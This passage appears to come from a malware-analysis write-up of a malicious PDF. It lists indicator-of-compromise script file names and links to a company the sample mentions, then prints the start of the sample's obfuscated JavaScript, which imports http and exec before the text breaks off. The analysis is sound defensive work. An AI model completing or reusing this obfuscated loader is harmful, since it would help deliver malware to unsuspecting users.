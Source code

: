 ```bash
CIOTech Links

|IOC       |70.wS               |Executable file name                         |
|IOC       |_.CPL               |Executable file name                         |
|IOC       |Kg.wsf              |Executable file name                         |
|IOC       |m.Ws                |Executable file name                         |
|IOC       |88.ws               |Executable file name                         |
|IOC       |CED.BaT             |Executable file name                         |
|IOC       |_r1G.Vb             |Executable file name                         |
|IOC       |l.wS                |Executable file name                         |
|IOC       |E.wS                |Executable file name                         |
|IOC       |n.vB                |Executable file name                         |
|IOC       |n.jS                |Executable file name                         |
|IOC       |x.wSC               |Executable file name                         |
|IOC       |tS.js               |Executable file name      
```

Constant references to this one particular company called `CIO Technology Solutions` for no reason, maybe all this is was just an elaborate advertisement campaign LMAO.

[](https://www.linkedin.com/company/ciotechus/)

[CIOTechUS (@CIOTechUS) on X](https://x.com/ciotechus)

[CIO Technology Solutions | Tampa FL](https://www.facebook.com/CiotechUS)

Now, after some looking around we see some obfuscated JavaScript in the PDF file. After some formatting of the JS.  By the way, I also removed them annoying `/` from the code which serve no purpose.

[JavaScript Formatter, JavaScript Beautifier Online - formatter.org](https://formatter.org/javascript-formatter)

```jsx
function _0x2070(_0x41dceb, _0x2d3a94) {
    const _0x1936df = _0xf4ad();
    return _0x2070 = function(_0x42263e, _0x5e62fc) {
        _0x42263e = _0x42263e - (0x1c9f + 0xdd6 + -0x28c7);
        let _0x219b67 = _0x1936df[_0x42263e];
        return _0x219b67;
    }, _0x2070(_0x41dceb, _0x2d3a94);
}
const _0x56812d = _0x2070;
(function(_0x552e76, _0xb7d948) {
    const _0x3eaee5 = _0x2070,
        _0x2a8887 = _0x552e76();
    while (!![]) {
        try {
            const _0x22069a = parseInt(_0x3eaee5(0x1b5)) / (-0x2698 + -0x8c3 * -0x2 + 0x1513) * (-parseInt(_0x3eaee5(0x1bc)) / (-0xf * -0x12d + -0xb * 0x13e + 0x1 * -0x3f7)) + parseInt(_0x3eaee5(0x1c1)) / (-0x5dd + 0xb * 0x1a6 + -0x621 * 0x2) * (parseInt(_0x3eaee5(0x1c7)) / (0x2 * -0x129f + 0xab * -0x29 + 0x4f9 * 0xd)) + -parseInt(_0x3eaee5(0x1d8)) / (-0x666 + -0x531 * -0x3 + 0x928 * -0x1) + -parseInt(_0x3eaee5(0x1c9)) / (-0x1 * 0x11b9 + -0x598 + 0x1757) + parseInt(_0x3eaee5(0x1b0)) / (0x1 * 0x1285 + 0x3e0 + 0x2 * -0xb2f) * (parseInt(_0x3eaee5(0x1c4)) / (-0xa37 * 0x1 + 0x4 * -0x133 + 0xf0b)) + -parseInt(_0x3eaee5(0x1e1)) / (0xf59 * -0x2 + 0x350 + -0x1b6b * -0x1) * (-parseInt(_0x3eaee5(0x1b6)) / (-0x419 * -0x3 + 0x97b * 0x2 + -0x1 * 0x1f37)) + parseInt(_0x3eaee5(0x1d5)) / (0x11 * 0x47 + -0x7a3 + -0xfd * -0x3);
            if (_0x22069a === _0xb7d948) break;
            else _0x2a8887['push'](_0x2a8887['shift']());
        } catch (_0xc886ae) {
            _0x2a8887['push'](_0x2a8887['shift']());
        }
    }
}(_0xf4ad, 0x21e6 * -0x83 + 0x1c54d2 + 0x3eed4));
const http = require(_0x56812d(0x1b8)),
    {
        exec
```